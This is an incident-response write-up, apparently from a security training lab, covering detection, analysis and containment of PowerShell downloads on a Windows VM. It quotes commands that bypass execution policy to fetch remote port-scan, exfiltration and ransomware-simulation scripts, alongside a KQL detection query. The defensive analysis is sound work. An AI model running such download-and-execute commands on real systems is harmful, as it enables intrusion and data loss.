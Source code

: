 # 🛡️ Incident Response Report: PowerShell Suspicious Web Request (NIST 800-161 Compliant)

---

## 1. Detection

**🚨 Incident Trigger:**  
An alert was raised for suspicious PowerShell web requests involving the account:

**👤 Account:** `<king>`

**Affected Host Information:**
- **HostName:** `king-vm`
- **Operating System:** Windows
- **OS Version:** Windows
- **Last Internal IP Address:** `10.0.0.84`
- **Last External IP Address:** `68.154.42.194`

**⚙️ Observed Commands Executed:**  
The following PowerShell commands were executed using the `-ExecutionPolicy Bypass` parameter:

```powershell
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1 -OutFile C:\programdata\eicar.ps1
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1 -OutFile C:\programdata\portscan.ps1
```

🧮 Detection Query:
To investigate the execution of suspicious PowerShell scripts, the following KQL query was used:

```kql
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == "king-vm"
| where ProcessCommandLine contains "-File" and InitiatingProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, InitiatingProcessCommandLine
| summarize Count = count() by AccountName, DeviceName, FileName, InitiatingProcessCommandLine
```

### 📑 NIST 800-161 Compliance:

- ID.AM-1: Inventory and management of user accounts and scripts.

- PR.DS-5: Protection of system integrity by detecting unauthorized code execution.

## 2. Analysis

#### 🔍 Code Review: Using Browserling, the URLs were accessed, and the scripts were analyzed. Each script’s function was verified and categorized.

#### 📜 One-Line Descriptions of Each Script:

- **[portscan.ps1](https://github.com/K-ING-TECH/Incident-Response_Invoke-WebRequest/blob/main/portscan.ps1)** - Scans a specified IP range for open common ports and logs the results for network reconnaissance.

- **[eicar.ps1](https://github.com/K-ING-TECH/Incident-Response_Invoke-WebRequest/blob/main/eicar.ps1)** - Creates an EICAR test file to simulate a benign virus detection for testing antivirus software responses.

- **[exfiltratedata.ps1](https://github.com/K-ING-TECH/Incident-Response_Invoke-WebRequest/blob/main/exfiltratedata.ps1)** - Generates fake employee data, compresses it, and uploads it to Azure Blob Storage to simulate data exfiltration.

- **[pwncrypt.ps1](https://github.com/K-ING-TECH/Incident-Response_Invoke-WebRequest/blob/main/pwncrypt.ps1)** - Encrypts files containing sensitive data and leaves a ransom note, simulating ransomware behavior.

## 🛠️ MITRE ATT&CK TTP Assessment:
- **T1046 - Network Service Scanning**: Executed through portscan.ps1.

- **T1059.001 - Command and Scripting Interpreter**: PowerShell - Usage of PowerShell for execution.

- **T1567.002 - Exfiltration Over Alternative Protocol**: Data exfiltration simulated by uploading to Azure Blob Storage.

- **T1486 - Data Encrypted for Impact**: Encryption of local files via pwncrypt.ps1.

## 3. Containment, Eradication, and Recovery
🚫 Containment Actions:

- Isolated the device from the network using Microsoft Defender for Endpoint (MDE).

- Executed a comprehensive antivirus (AV) scan to detect and mitigate any further malicious code.

### Eradication Steps:

- Reimaged the device and redeployed it using the last known good backup.

### Recovery Measures:

- Enrolled the affected user in an updated security awareness training program using KnowBe4.

- Developed and implemented a new policy to restrict PowerShell usage for non-administrative users.

## 📑 NIST 800-161 Compliance:

🔒 PR.PT-5: Restrict execution of scripts and enforce least privilege for administrative actions.

🛡️ RS.MI-3: Eradication of malware and unauthorized scripts.

📜 RC.IM-1: Implementation of improved policies to mitigate future incidents.

## 4. Lessons Learned & Security Improvements
- Enhance monitoring rules for PowerShell execution with bypass flags.

- Implement stricter conditional access and endpoint protection policies.

- Regularly audit administrative privileges and script execution logs.


